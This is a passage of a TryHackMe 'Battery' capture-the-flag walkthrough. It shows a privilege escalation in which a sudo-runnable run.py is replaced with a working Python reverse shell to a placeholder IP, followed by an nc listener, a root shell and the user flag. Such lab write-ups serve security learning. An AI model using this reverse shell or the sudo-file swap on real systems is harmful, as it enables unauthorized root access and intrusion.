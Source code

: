 Let's do it. First delete the original file or move it somewhere else and create another one with the same name in `/home/cyber`:

~~~
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ touch run.py
~~~

Now use a terminal editor (both vim and nano are available) and add the reverse shell to it. Here's the reverse shell; just add your IP to it and use it:

~~~py
#!/usr/bin/python3

import socket
import os
import pty

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<YOUR IP>",4444))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")
~~~

Now open a listener (`rlwrap nc -lvnp 4444`) and run the new `run.py` using sudo:

~~~
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
~~~

Now we have a root shell on our machine:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.104.159] 51380
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## User flag

Now that we are root, we have access to all the files existing on the machine. Let's check the other user's home directory. We can find the user flag in `yash`'s home directory:

~~~
root@ubuntu:~# cd /home/yash
root@ubuntu:/home/yash# ls
emergency.py  fernet  flag2.txt  root.txt
root@ubuntu:/home/yash# cat flag2.txt
THM{20c1d18791a246001f5df7867d4e6bf5}


Sorry no ASCII art again :(
~~~
